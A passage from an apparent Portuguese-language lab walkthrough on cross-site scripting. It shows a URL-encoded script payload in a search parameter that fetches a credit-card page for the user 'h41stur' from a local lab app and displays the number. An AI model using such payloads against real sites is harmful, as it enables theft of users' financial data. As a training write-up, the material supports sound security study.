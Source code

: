 Gerando a seguinte URL:

- [http://localhost/15/?search=%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E](http://localhost/15/?search=%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E)

Ao acessar a URL, temos o número do cartão impresso na tela.

![Resultado](/img/posts/2023-06-21-beyond-the-alert-42.png)

#### Referências

- [https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/setRequestHeader](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/setRequestHeader)
- [https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/responseText](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/responseText)
- [https://developer.mozilla.org/en-US/docs/Web/Guide/AJAX](https://developer.mozilla.org/en-US/docs/Web/Guide/AJAX)
- [https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest)

### *Task 16 - Getting Parameters from URL*
